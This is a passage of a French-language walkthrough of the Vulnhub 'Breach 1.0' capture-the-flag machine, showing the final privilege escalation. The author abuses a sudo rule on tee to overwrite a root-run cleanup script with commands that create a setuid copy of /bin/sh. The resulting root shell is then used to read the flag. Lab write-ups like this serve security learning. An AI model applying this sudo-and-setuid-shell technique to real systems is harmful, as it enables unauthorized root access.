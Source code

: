 `tee` est un programme que j'utilise souvent avec `LinPEAS`. Il permet de ré-afficher l'output qu'il reçoit tout en l'écrivant en même temps dans un fichier.

Comme `LinPEAS` génère beaucoup d'information, le coupler avec `tee` me permet de voir l'output et fur et à mesure de l'exécution mais aussi de pouvoir lire les données deluis le fichier créé quand je le souhaite.

Ici je vais appeler directement `tee` sans pipe et taper le script que je veut sur l'entrée standard. Du au fonctionnement du programme, les données sont aussitôt affichées. C'est pour cela qu'elles apparaissen deux fois ici (mais dans le fichier elle n'y seront qu'une fois) :

```shellsession
blumbergh@Breach:/home/milton$ sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
#!/bin/sh
#!/bin/sh
cp /bin/sh /tmp/gotroot
cp /bin/sh /tmp/gotroot
chmod 4755 /tmp/gotroot
chmod 4755 /tmp/gotroot
blumbergh@Breach:/home/milton$ ls -l /tmp/gotroot 
-rwsr-xr-x 1 root root 121272 Nov  9 12:12 /tmp/gotroot
blumbergh@Breach:/home/milton$ /tmp/gotroot
# id
uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) groups=0(root),1001(blumbergh)
# cd /root
# ls -al
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Nov  9 09:32 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
# cat .flag.txt
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|


-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!

Shout-out to knightmare, and rastamouse for testing and g0tmi1k for hosting.
```

Voici un CTF plutôt intéressant même si je reste partagée sur les techniques d'obtention du root.
